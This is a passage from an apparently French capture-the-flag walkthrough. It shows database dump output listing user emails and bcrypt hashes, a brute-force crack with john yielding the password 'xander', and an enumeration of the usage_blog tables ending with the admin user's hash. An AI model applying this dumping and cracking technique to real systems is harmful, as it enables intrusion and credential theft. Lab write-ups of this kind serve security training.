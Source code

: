```bash
brm@brunorochamoura.com    
davy@wavy.gravy      
raj@raj.com

$2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4.
```

### Crack du mdp
On fait une attaque brute force avec john et on trouve le mot de passe suivant pour le hash découvert : `xander`

### Compte raj@raj.com
Après quelques essais, on découvre donc les credentials suivants pour se connecter au website:
> raj@raj.com : xander

En realité, ce compte utilisateur est inutile. Par contre, j'ai trouvé d'autres tables avec les users admin

### Utilisateur Admin
```bash
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

Database: usage_blog
Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| name           | varchar(255) |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) |
+----------------+--------------+

Database: usage_blog
Table: admin_users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
```